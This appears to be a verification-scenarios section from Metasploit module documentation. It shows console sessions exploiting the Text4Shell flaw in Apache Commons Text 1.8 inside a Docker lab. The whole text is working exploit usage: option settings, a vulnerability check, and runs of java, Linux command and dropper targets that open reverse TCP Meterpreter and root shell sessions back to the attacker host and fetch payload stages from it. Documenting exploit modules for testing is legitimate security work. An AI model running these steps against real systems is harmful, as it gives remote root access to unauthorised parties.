 ### Apache Commons Text 1.8 on Alpine Linux v3.9 JDK 8

Check:
```
msf6 > use exploit/multi/http/apache_commons_text4shell
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_commons_text4shell) > set lhost docker0
lhost => 172.17.0.1
msf6 exploit(multi/http/apache_commons_text4shell) > set rhost 172.17.0.2
rhost => 172.17.0.2
msf6 exploit(multi/http/apache_commons_text4shell) > set rport 8080
rport => 8080
msf6 exploit(multi/http/apache_commons_text4shell) > set targeturi /text4shell/attack
targeturi => /text4shell/attack
msf6 exploit(multi/http/apache_commons_text4shell) > set param search
param => search
msf6 exploit(multi/http/apache_commons_text4shell) > check

[+] 172.17.0.2:8080 - The target is vulnerable. Successfully tested command injection.
```

Target: java
```
msf6 exploit(multi/http/apache_commons_text4shell) > set target 0
target => 0
msf6 exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Using URL: http://172.17.0.1:8080/cuGgfHN/
[*] Sending stage (57692 bytes) to 172.17.0.2
[*] Meterpreter session 16 opened (172.17.0.1:4444 -> 172.17.0.2:39832) at 2023-12-23 23:03:31 +0530
[*] Server stopped.

meterpreter >
```

Target: Linux Command
```
msf6 exploit(multi/http/apache_commons_text4shell) > set target 3
target => 3
msf6 exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Command shell session 17 opened (172.17.0.1:4444 -> 172.17.0.2:36446) at 2023-12-23 23:04:10 +0530

id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Target: Linux Dropper
```
msf6 exploit(multi/http/apache_commons_text4shell) > set target 4
target => 4
msf6 exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Using URL: http://172.17.0.1:8080/L8kRU1E8O/
[*] Client 172.17.0.2 requested /L8kRU1E8O/
[*] Sending payload to 172.17.0.2
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 18 opened (172.17.0.1:4444 -> 172.17.0.2:39580) at 2023-12-23 23:04:35 +0530
```